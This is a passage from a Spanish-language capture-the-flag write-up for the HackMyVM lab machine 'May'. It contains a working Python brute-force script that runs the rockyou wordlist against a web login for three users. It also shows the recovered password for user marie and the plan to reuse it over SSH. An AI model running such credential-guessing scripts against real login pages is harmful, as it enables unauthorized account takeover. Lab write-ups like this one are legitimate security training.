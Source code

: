 ![sshMay](/assets/img/imgs/may/sshMay.png)

Huh, son idénticos. No pasa nada, tratemos de crear un **`script`** para hacer **`fuerza bruta`** contra los usuarios y así poder saber la contraseña:

```python
import requests

users = ["admin", "marie", "alice"]

with open("/usr/share/wordlists/rockyou.txt", "r", encoding="latin-1") as f:
    lines = f.readlines()

    for line in lines:
        passwd = line.replace("\n", "")

        for user in users:
            data = {
                    'user': f'{user}',
                    'password': f'{passwd}',
            }

            r = requests.post('http://portal.may.hmv/check.php', data=data)

            if not "incorrect" in r.text:
                print(f"USER: {user}\nPASSWORD: {passwd}\n" + "=" * 30)
```

Vemos que la petición es muy sencilla, para comenzar estamos iterando por un diccionario de contraseñas y, posteriormente, probamos la misma contraseña con los tres usuarios, para no dejarnos ni uno sin comprobar.

En fin, tras unos segundos de espera, estos son los resultados:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/May/exploits]
└─# python3 brute_force.py
USER: marie
PASSWORD: rebelde
==============================
```

Vemos que hemos encontrado una contraseña, iniciemos sesión como **`Marie`** y veamos con qué nos encontramos:

![portalMayMessage](/assets/img/imgs/may/portalMayMessage.png)

¡Qué mala suerte! Nos dice que el portal también está en mantenimiento. No pasa nada, probemos las mismas credenciales en el subdominio **`ssh`**:
